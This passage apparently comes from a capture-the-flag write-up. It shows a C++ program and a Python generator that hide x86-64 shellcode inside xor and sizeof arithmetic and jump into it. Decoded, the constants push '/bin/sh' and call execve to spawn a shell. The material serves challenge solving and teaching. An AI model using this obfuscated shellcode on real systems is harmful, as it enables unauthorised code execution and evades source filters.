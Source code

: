 ### Actually Winning

The final `source.cpp` is about 125KB, so I'll omit it here, but it basically just looks like this:

```cpp
int main () {
    unsigned char c;
    unsigned short s;

    // SHELLCODE_ASSIGNMENTS

    extern long __init_array_start;
    long sc;
    sc xor_eq __init_array_start;
    sc xor_eq sizeof s * sizeof s * sizeof s * sizeof s xor sizeof s xor sizeof c;

    goto *sc;
}
```

where `// SHELLCODE_ASSIGNMENTS` is replaced with the output of:

```py
words = { 0: "zero", 1: "one", 2: "two", 3: "three", 4: "four", 5: "five", 6: "six", 7: "seven", 8: "eight", 9: "nine", 10: "ten", 11: "eleven", 12: "twelve", 13: "thirteen" }

def gen_pow2(power):
    if power == 0:
        return "sizeof c"
    return " * ".join(["sizeof s"] * power)

def gen_num(target):
    parts = []
    for i in range(63, -1, -1):
        if (target >> i) & 1:
            parts.append(gen_pow2(i))
    return " xor ".join(parts)

TARGETS = [
    0x06EB90900068BB66,
    0x06EBC03110E3C148,
    0x06EB9090732FBB66,
    0x06EBC93110E3C148,
    0x06EB90906E69BB66,
    0x06EBD23110E3C148,
    0x06EB9090622FBB66,
    0x06EB909090909053,
    0x06EB909090C03148,
    0x06EB909090903BB0,
    0x06EB909090D23148,
    0x06EB909090F63148,
    0x06EB909090E78948,
    0x06EB90909090050F,
]
for i, t in enumerate(TARGETS):
    print(f"unsigned long x_{words[i]}; x_{words[i]} xor_eq {gen_num(t)};")
```
